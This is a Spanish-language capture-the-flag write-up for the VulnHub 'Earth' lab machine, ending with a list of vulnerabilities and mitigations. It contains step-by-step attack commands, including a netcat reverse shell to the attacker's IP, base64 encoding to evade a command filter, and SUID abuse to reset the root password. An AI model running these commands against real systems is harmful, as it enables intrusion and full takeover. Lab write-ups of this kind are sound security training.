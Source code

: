 # CTF EARTH LOCAL  
**Objetivo:** Linux 192.168.131.130 (Earth Local)  

---

## SECUENCIA DE ATAQUE EXPLICADA  

### **FASE 1: PREPARACIÓN**  
```bash
ip a
```
> Verificamos nuestra IP local para identificar la interfaz en uso (eth0).  

```bash
netdiscover -i eth0
```
> Escaneamos la red para encontrar la IP objetivo. Resultado: **192.168.131.130**.  

---

### **FASE 2: RECONOCIMIENTO**  
```bash
sudo nmap -sV -sC -T4 192.168.131.130
```
> Escaneo de servicios y versiones con scripts básicos. Puertos encontrados:  
> - 22/tcp → SSH (OpenSSH 8.6)  
> - 80/tcp → HTTP (Apache 2.4.51)  
> - 443/tcp → HTTPS (Apache 2.4.51 con SSL y certificados para earth.local y terratest.earth.local)  

**Ajuste de /etc/hosts**  
```
192.168.131.130 earth.local terratest.earth.local
```
> Esto permite acceder por nombre de dominio en vez de IP.  

---

### **FASE 3: ENUMERACIÓN WEB**  
```bash
gobuster dir -u http://earth.local/ -w /usr/share/wordlists/dirb/common.txt
```
> Descubrimos `/admin` → Panel de login.  

```bash
gobuster dir -u https://terratest.earth.local/ -k -w /usr/share/wordlists/dirb/common.txt
```
> Detectamos `/robots.txt` que apunta a `/testingnotes.txt`.  

**Contenido notes:**  
- Cifrado usado: XOR  
- Usuario: `terra` (para el panel admin)  
- Archivo `testdata.txt` usado como clave de prueba.  

---

### **FASE 4: OBTENCIÓN CREDENCIALES**  
> Vamos a `testdata.txt` y lo usamos como **KEY** en [CyberChef](https://gchq.github.io/CyberChef/).  
> Método: XOR, salida Hex.  
> Desencriptamos los mensajes ocultos en la página principal de `earth.local`.  

**Resultado:**  
```
Usuario: terra  
Pass: earthclimatechangebad4humans
```

---

### **FASE 5: ACCESO INICIAL**  
> Entramos a `http://earth.local/admin` con credenciales obtenidas.  
> Tenemos un campo de ejecución de comandos como usuario `apache`.  

```bash
whoami
ls /var/earth_web
cat /var/earth_web/user_flag.txt
```
> Obtenemos **FLAG USER**.  

---

### **FASE 6: SHELL REVERSA**  
En máquina atacante:  
```bash
nc -lvnp 4444
```
> Ponemos un listener para recibir la conexión.  

En el panel web:  
```bash
echo 'nc -e /bin/bash 192.168.131.128 4444' | base64
```
> Convertimos el comando a Base64 para evadir el filtro.  

```bash
echo 'bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMTMxLjEyOCA0NDQ0Cg==' | base64 -d | bash
```
> Decodificamos y ejecutamos → conexión establecida.  

Mejoramos la shell:  
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

---

### **FASE 7: ESCALADA DE PRIVILEGIOS**  
```bash
find / -perm -u=s 2>/dev/null
```
> Encontramos binario SUID `/usr/bin/reset_root`.  

- Lo analizamos con `ltrace` → requiere 3 ficheros inexistentes.  
- Creamos los ficheros:  
```bash
touch /dev/shm/kHgTFI5G
touch /dev/shm/Zw7bV9U5
touch /tmp/kcM0Wewe
```
- Ejecutamos de nuevo → contraseña root reseteada a `Earth`.  

```bash
su root
cat /root/root_flag.txt
```
> Obtenemos **FLAG ROOT**.  

---

## RESUMEN VULNERABILIDADES  
- **Credenciales en código fuente cifrado** (XOR)  
- **Panel admin** accesible sin restricciones de IP  
- **Ejecución remota de comandos**  
- **SUID vulnerable** que permite resetear contraseña root  

---

## MEDIDAS DE MITIGACIÓN  
- Eliminar credenciales de código  
- Restringir panel admin por IP  
- Eliminar binarios SUID innecesarios  
- Auditoría de cifrados y backups

---

## EVIDENCIAS  
- FLAG USER: `/var/earth_web/user_flag.txt`  
- FLAG ROOT: `/root/root_flag.txt`  
- Credenciales: `terra / earthclimatechangebad4humans`  
- Archivos clave: `testdata.txt`, `reset_root`

---

##MV
https://www.vulnhub.com/entry/the-planets-earth,755/

---

 <div style="text-align: center;">
  <img src="https://raw.githubusercontent.com/Zyanetralys/profile/refs/heads/main/planeterath.jpg" width="550" alt="Earth">
</div>
